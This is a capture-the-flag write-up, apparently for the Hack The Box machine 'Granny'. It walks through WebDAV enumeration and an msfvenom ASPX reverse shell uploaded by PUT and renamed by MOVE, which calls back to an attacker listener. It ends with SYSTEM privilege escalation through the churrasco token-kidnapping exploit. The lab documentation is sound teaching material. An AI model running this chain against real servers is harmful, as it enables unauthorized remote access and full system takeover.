

# Enumeration

## Run Nmap Scan

```bash
nmap 10.10.10.15 -p- -sC -sV --min-rate 6000 -Pn -n -oA tcpDetailed --script vuln
```

### Result for Nmap Scan

```bash
"
Nmap scan report for 10.10.10.15
Host is up (0.16s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-enum: 
|   /_vti_bin/: Frontpage file or folder
|   /_vti_log/: Frontpage file or folder
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|   /_vti_bin/shtml.exe: Frontpage file or folder
|   /images/: Potentially interesting folder
|_  /_private/: Potentially interesting folder
|_http-server-header: Microsoft-IIS/6.0
| vulners: 
|   cpe:/a:microsoft:internet_information_services:6.0: 
|     	PACKETSTORM:93313	6.0	https://vulners.com/packetstorm/PACKETSTORM:93313	*EXPLOIT*
|     	CVE-2009-4445	6.0	https://vulners.com/cve/CVE-2009-4445
|_    	CVE-2009-4444	6.0	https://vulners.com/cve/CVE-2009-4444
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
"
```

## View Website



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.10.10.15/ -w /usr/share/wordlist/dirb/commons.txt
```

### Result

```bash
"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.15/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/07 14:45:32 Starting gobuster in directory enumeration mode
===============================================================
/_private             (Status: 301) [Size: 153] [--> http://10.10.10.15/%5Fprivate/]
/_vti_log             (Status: 301) [Size: 155] [--> http://10.10.10.15/%5Fvti%5Flog/]
/_vti_bin             (Status: 301) [Size: 155] [--> http://10.10.10.15/%5Fvti%5Fbin/]
/_vti_bin/_vti_adm/admin.dll (Status: 200) [Size: 195]                                
/_vti_bin/_vti_aut/author.dll (Status: 200) [Size: 195]                               
/_vti_bin/shtml.dll   (Status: 200) [Size: 96]                                        
/aspnet_client        (Status: 301) [Size: 158] [--> http://10.10.10.15/aspnet%5Fclient/]
/images               (Status: 301) [Size: 149] [--> http://10.10.10.15/images/]         
/Images               (Status: 301) [Size: 149] [--> http://10.10.10.15/Images/]
"
```

By looking at `vti*_*bin`, it looks like it is using **webdav**

## Enumerate Webdav

> WebDAV is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections - [Microsoft](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)
> 

### Running davtest to enumerate webdav

```bash
davtest -url http://10.10.10.15

"
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: kdjLDEKp
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_kdjLDEKp
********************************************************
 Sending test files
PUT	asp	FAIL
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.jsp
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.jhtml
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.txt
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.cfm
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.pl
PUT	shtml	FAIL
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.php
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.html
PUT	aspx	FAIL
PUT	cgi	FAIL
********************************************************
 Checking for test file execution
EXEC	jsp	FAIL
EXEC	jhtml	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.txt
EXEC	cfm	FAIL
EXEC	pl	FAIL
EXEC	php	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.html

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_kdjLDEKp
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.jsp
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.jhtml
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.txt
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.cfm
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.pl
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.php
PUT File: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.html
Executes: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.txt
Executes: http://10.10.10.15/DavTestDir_kdjLDEKp/davtest_kdjLDEKp.html
"
```

# Exploitation

We can send `jsp`, `txt`, `pl` file extensions, but not either`asp` or `aspx`. Hence we are going to upload webshell in`txt` extensions through Webdav `PUT` command, but going to change the filename later through Webdav `MOVE` command.

## Create and Upload Reverse Shell

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.10 LPORT=4444 -o reverse.aspx
```

```bash
curl -X PUT http://10.10.10.15/reverse.txt --data-binary @reverse.aspx
```

```bash
curl -X MOVE --header 'Destination:http://10.10.10.15/reverse.aspx' 'http://10.10.10.15/reverse.txt'
```

## Listen and Run Reverse Shell

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.15.
Ncat: Connection from 10.10.10.15:1033.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
"
```

```bash
curl http://10.10.10.15/reverse.aspx
```

# Privilege Escalation

## Finding Vulnerability using wes-ng

### Get Systeminfo from Target Windows Machine

```powershell
systeminfo

"""
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition 
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 7 Hours, 50 Minutes, 59 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
"""
```

### Install and update wes-ng

```bash
pip3 install wesng
```

```bash
wes.py --update
```

### Finding Vulnerability

```bash
wes.py <file that contains target systeminfo> -o out.csv

"
Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Microsoft Windows Server 2003
    - Generation: 2003
    - Build: 3790
    - Version: None
    - Architecture: 
    - Installed hotfixes: None
[+] Loading definitions
    - Creation date of definitions: 20230901
[+] Determining missing patches
[+] Filtering duplicate vulnerabilities
[!] Found vulnerabilities!

Date: 20100914
CVE: CVE-2010-0818
KB: KB975558
Title: Vulnerability in MPEG-4 Codec Could Allow Remote Code Execution
Affected product: Microsoft Windows Server 2003 x64 Edition Service Pack 2
Affected component: 
Severity: Critical
Impact: Remote Code Execution
Exploit: n/a

Date: 20120412
CVE: CVE-2012-0151
KB: KB2653956
Title: Vulnerability in Windows Could Allow Remote Code Execution
Affected product: Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2
Affected component: 
Severity: Critical
Impact: Remote Code Execution
Exploit: n/a

Date: 20120412
CVE: CVE-2012-0151
KB: KB2653956
Title: Vulnerability in Windows Could Allow Remote Code Execution
Affected product: Microsoft Windows Server 2003 x64 Edition Service Pack 2
Affected component: 
Severity: Critical
Impact: Remote Code Execution
Exploit: n/a
...
"
```

```powershell
cat out.csv | grep '2009-0079'

"20090414","CVE-2009-0079","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 1","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","952004","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 x64 Edition Service Pack 2","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 1","","Important","Elevation of Privilege",""
"20090414","CVE-2009-0079","956572","Vulnerabilities in Windows Could Allow Elevation of Privilege","Microsoft Windows Server 2003 for Itanium-based Systems Service Pack 2","","Important","Elevation of Privilege",""
```

## Token Kidnapping (MS09-012 | CVE-2009-0079)

Source: [https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/README.md](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/README.md)

```bash
git clone https://github.com/Re4son/Churrasco
```

```powershell
.\churrasco.exe -d ".\reverse shell"

'''
C:\Inetpub\wwwroot>.\churrasco.exe -d "C:\inetpub\wwwroot\root.exe"
.\churrasco.exe -d "C:\inetpub\wwwroot\root.exe"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
'''
```

```jsx
nc -lnvp 4443
```